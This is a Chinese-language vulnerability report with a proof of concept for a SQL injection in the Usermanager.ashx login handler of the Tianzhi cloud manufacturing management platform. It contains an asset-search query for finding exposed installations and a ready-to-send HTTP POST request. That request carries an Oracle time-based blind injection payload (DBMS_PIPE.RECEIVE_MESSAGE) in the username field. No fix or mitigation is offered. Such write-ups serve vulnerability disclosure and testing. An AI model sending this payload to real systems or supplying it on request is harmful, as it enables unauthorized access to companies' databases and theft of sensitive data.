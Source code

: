 # 天智云制造管理平台存在SQL注入漏洞

# 一、漏洞简介
天智(苏州)智能系统有限公司天智云制造管理平台是一款专注于中小企业智能化生产管理的SaaS软件。该平台通过一站式服务串联销售、采购、生产、质量和仓库等部门，实现生产全过程的数字化管理。它具备生产管理、订单管理、质量追溯、仓库管理等多项功能，并通过移动化、可配置的方式，满足企业个性化需求。天智云制造管理平台致力于提高生产效率、降低生产成本、提升产品质量，帮助中小企业实现数智化转型。天智云制造管理平台是一款专注于中小企业智能化生产管理的SaaS软件。该系统 Usermanager.ashx 存在sql注入漏洞，攻击者可获取数据库敏感信息。

# 二、影响版本
+ 天智云制造管理平台

![1717521987496-0cdc1e1a-6218-4a69-8710-5d4c3ab7bfcf.png](./img/cqxqW9CfhZvLaZfD/1717521987496-0cdc1e1a-6218-4a69-8710-5d4c3ab7bfcf-233161.png)

# 三、资产测绘
```plain
body="Ashx/Usermanager.ashx"
```

# 四、漏洞复现
```rust
POST /Ashx/Usermanager.ashx HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36

type=LOGIN&username=1') AND 1566=DBMS_PIPE.RECEIVE_MESSAGE(CHR(70)||CHR(90)||CHR(98)||CHR(107),5) AND ('DgMy'='DgMy&pwd=123&vendor=
```

![1717522389390-1984a2fc-6c71-4bd0-9e4f-f2ba802d3ba5.png](./img/cqxqW9CfhZvLaZfD/1717522389390-1984a2fc-6c71-4bd0-9e4f-f2ba802d3ba5-947512.png)

```rust
POST /Ashx/Usermanager.ashx HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36

type=LOGIN&username=1&pwd=123&vendor=
```

![1717522241787-c3080d0a-5cf1-4e32-ae54-72fe6ce28e3b.png](./img/cqxqW9CfhZvLaZfD/1717522241787-c3080d0a-5cf1-4e32-ae54-72fe6ce28e3b-241140.png)



> 更新: 2024-06-11 10:35:37  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/suc76y4muoeqbtkp>